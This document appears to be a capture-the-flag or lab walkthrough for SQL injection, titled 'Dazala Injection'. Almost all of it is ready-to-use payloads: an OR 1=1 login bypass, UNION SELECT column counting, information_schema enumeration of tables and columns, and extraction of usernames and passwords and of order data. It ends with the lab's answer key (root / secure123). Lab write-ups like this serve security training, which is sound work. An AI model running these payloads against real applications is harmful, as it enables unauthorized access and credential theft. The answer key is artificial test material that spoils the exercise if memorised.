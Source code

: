 # Dazala Injection Walk Through

## Step 1: Test for Input Type
Begin by testing the input type to understand how the application processes user input. Use the following payload:
```sql
1 OR 1=1--
```
This payload is a simple SQL injection that always evaluates to true, allowing you to bypass authentication and see if the input is vulnerable to SQL injection.

## Step 2: Check the Number of Output Fields
Use the following query:
```sql
1' UNION SELECT null, null, null FROM information_schema.tables;-- -
```
This query checks the number of output fields by trying different numbers of null values.

> You could also find the number of output fields by using the following query:
> ```sql
> 1' UNION SELECT null, null, null, null FROM information_schema.tables;-- -
> ```
>> Using the query above, you can determine the number of output fields by increasing the number of null values. So just remove or add null values to find the correct number of output fields.

## Step 3: Find Table Names
Use the following query to retrieve table names:
```sql
1' UNION SELECT table_name, null, null FROM information_schema.tables;-- -
```
This query retrieves table names from the database.

## Step 4: Retrieve Column Names from a Known Table
Use the following query:
```sql
1' UNION SELECT column_name, null, null FROM information_schema.columns WHERE table_name='users';-- -
```
This query retrieves column names from the users table.

## Step 5: Retrieve Name and Password Columns from a Known Table
Use the following query:
```sql
1' UNION SELECT username, password, null FROM users;-- -
```
This query retrieves the username and password columns from the users table.
The table displays the root’s password, which can be used to sign in.

## Additional Example: Extracting Data from Another Table
To further illustrate the process, let's extract data from another table, such as the "orders" table. Use the following query:
```sql
1' UNION SELECT order_id, order_date, null FROM orders;-- -
```
This query retrieves the order_id and order_date columns from the orders table.

## Solution

Username: root
Password: secure123
